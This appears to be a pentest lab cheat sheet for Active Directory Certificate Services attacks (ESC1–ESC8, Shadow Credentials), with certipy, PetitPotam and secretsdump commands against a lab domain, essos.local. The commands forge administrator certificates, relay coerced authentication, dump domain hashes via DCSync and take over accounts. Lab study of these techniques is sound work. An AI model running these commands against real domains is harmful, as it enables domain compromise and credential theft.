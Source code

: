 # Exploits

## ESC1

> In order to abuse this misconfiguration, the following conditions must be met:
>
> * **The Enterprise CA grants low-privileged users enrollment rights**. The Enterprise CA’s configuration must permit low-privileged users the ability to request certificates. See the “Background — Certificate Enrollment” in the whitepaper paper for more details.
> * **Manager approval is disabled**. This setting necessitates that a user with certificate manager permissions review and approve the requested certificate before the certificate is issued. See the “Background — Certificate Enrollment — Issuance Requirements’ section in the whitepaper paper for more details.
> * **No authorized signatures are required**. This setting requires any CSR to be signed by an existing authorized certificate. See the “Background — Certificate Enrollment — Issuance Requirements” section in the whitepaper for more details.
> * **An overly permissive certificate template security descriptor grants certificate enrollment rights to low-privileged users**. Having certificate enrollment rights allows a low-privileged attacker to request and obtain a certificate based on the template. Enrollment rights are granted via the certificate template AD object’s security descriptor.
> * **The certificate template defines EKUs that enable authentication**. Applicable EKUs include Client Authentication (OID 1.3.6.1.5.5.7.3.2), PKINIT Client Authentication (1.3.6.1.5.2.3.4), Smart Card Logon (OID 1.3.6.1.4.1.311.20.2.2), Any Purpose (OID 2.5.29.37.0), or no EKU (SubCA).
> * **The certificate template allows requesters to specify a subjectAltName (SAN) in the CSR**. If a requester can specify the SAN in a CSR, the requester can request a certificate as anyone (e.g., a domain admin user). The certificate template’s AD object specifies if the requester can specify the SAN in its mspki-certificate-name-flag property. The mspki-certificate-name-flag property is a bitmask and if the CT\_FLAG\_ENROLLEE\_SUPPLIES\_SUBJECT flag is present, a requester can specify the SAN. This is surfaced as the “Supply in request” option in the “Subject Name” tab in certtmpl.msc.

```bash
# enumerate
certipy find -u khal.drogo@essos.local -p 'horse' -dc-ip 192.168.56.12

# query the certificate
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC1 -ca ESSOS-CA -upn administrator@essos.local

# authentication with the pfx we request before
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12

```

## ESC2 & ESC3

### ESC2

> In order to abuse this misconfiguration, the following conditions must be met:
>
> * **The Enterprise CA grants low-privileged users enrollment rights**. Details are the same as in ESC1.
> * **Manager approval is disabled**. Details are the same as in ESC1.
> * **No authorized signatures are required**. Details are the same as in ESC1.
> * **An overly permissive certificate template security descriptor grants certificate enrollment rights to low-privileged users**. Details are the same as in ESC1.
> * **The certificate template defines Any Purpose EKUs or no EKU**.

### ESC3

In order to abuse this misconfiguration, the following conditions must be met:

> * **The Enterprise CA grants low-privileged users enrollment rights**. Details are the same as in ESC1.
> * **Manager approval is disabled**. Details are the same as in ESC1.
> * **No authorized signatures are required**. Details are the same as in ESC1.
> * **An overly permissive certificate template security descriptor grants certificate enrollment rights to low-privileged users**. Details are the same as in ESC1.
> * **The certificate template defines the Certificate Request Agent EKU**. The Certificate Request Agent OID (1.3.6.1.4.1.311.20.2.1) allows for requesting other certificate templates on behalf of other principals.
> * **Enrollment agent restrictions are not implemented on the CA**.

### Exploits

```bash
# ESC2
# query the cert
certipy req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template ESC2 -ca ESSOS-CA

# query cert with the Certificate Request Agent certificate we get before (-pfx)
certipy req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template User -ca ESSOS-CA -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx

# auth
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12


# ESC3 & ESC3-CRA
certipy req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template ESC3-CRA -ca ESSOS-CA
certipy req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template ESC3 -ca ESSOS-CA -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx
certipy auth -pfx administrator.pfx -username administrator -domain essos.local -dc-ip 192.168.56.12
```

## ESC4

> Manager Approval requirement is enabled&#x20;
>
> An Authorized Signature is required to issue certificate&#x20;
>
> Subject Name cannot be supplied in request&#x20;
>
> Set "Encrypting File System" for Certificate Application Policy Extension&#x20;
>
> But if low privileged user account has WriteDacl for this template, these restrictions can be broken, and attackers can abuse it for domain escalation.

```bash
# Take the ESC4 template and change it to be vulnerable to ESC1 technique by using the genericWrite privilege we got.
certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -save-old -debug

# Exploit ESC1 on the modified ESC4 template
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC4 -ca ESSOS-CA -upn administrator@essos.local

#     authentication with the pfx
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12

# Rollback the template configuration
certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -configuration ESC4.json

```

## ESC6

> ESC6 is when the CA specifies the **EDITF\_ATTRIBUTESUBJECTALTNAME2** flag. This flag allows the enrollee to specify an arbitrary SAN on all certificates despite a certificate template’s configuration.

```bash
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template User -ca ESSOS-CA -upn administrator@essos.local

certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

## ESC8

> In summary, if an environment has AD CS installed, along with a vulnerable web enrollment endpoint and **at least one certificate template published** that allows for domain computer enrollment and client authentication (like the default Machine template), then an attacker can compromise ANY computer with the spooler service running!

### certipy

```bash
# setup the listener :
certipy relay -ca 192.168.56.23 -template DomainController

# trig the coerce
petitpotam.py 192.168.56.1 meereen.essos.local

# we got the certificate so we can get the NT hash of the DC and also the TGT with the command :
certipy auth -pfx meereen.pfx -dc-ip 192.168.56.12 

# we can launch a DCsync with secretsdump and the ticket we get
export KRB5CCNAME=/workspace/esc8/meereen.ccache
secretsdump -k -no-pass ESSOS.LOCAL/'meereen$'@meereen.essos.local

# or with the hash

secretsdump -hashes ':39d964a01c61c19fe36c71627d7ab56c' -no-pass ESSOS.LOCAL/'meereen$'@meereen.essos.local
```

## Shadow Credentials

> Shadow credentials attack consist of using the **GenericAll** or **GenericWrite** privilege on a user or computer to set up the attribute **msDS-KeyCredentialLink**. This attack is very usefull when you got **Write** on another user.

> With **genericWrite** you can only do:
>
> * Target Kerberoasting : add an SPN to a user, do a kerberoasting, unset the spn. But the user password must be weak to the kerberoasting attack work.
> * Set up a logon script : change ldap parameters to set up a logon script. but it implies that the user log to his computer, an smb server or a share to offer the script and setup a script that bypass the security solutions in place)
> * Shadow credentials : the attack we want to do, we need a cetificate service on the domain

> With **GenericAll** you can :
>
> * ForceChangePassword : but on a real pentest you don’t want to block a user by changing his password.

> So if ADCS is enabled on the domain, and we got **write** privilege on **msDS-KeyCredentialLink**, we can do the shadow credentials attack to get a direct access on the user account. And this seems to be the better idea in this case on a real pentest.

```bash
certipy shadow auto -u khal.drogo@essos.local -p 'horse' -account 'viserys.targaryen'

certipy shadow auto -u viserys.targaryen@essos.local -hashes 'd96a55df6bef5e0b4d6d956088036097' -account 'jorah.mormont'
```
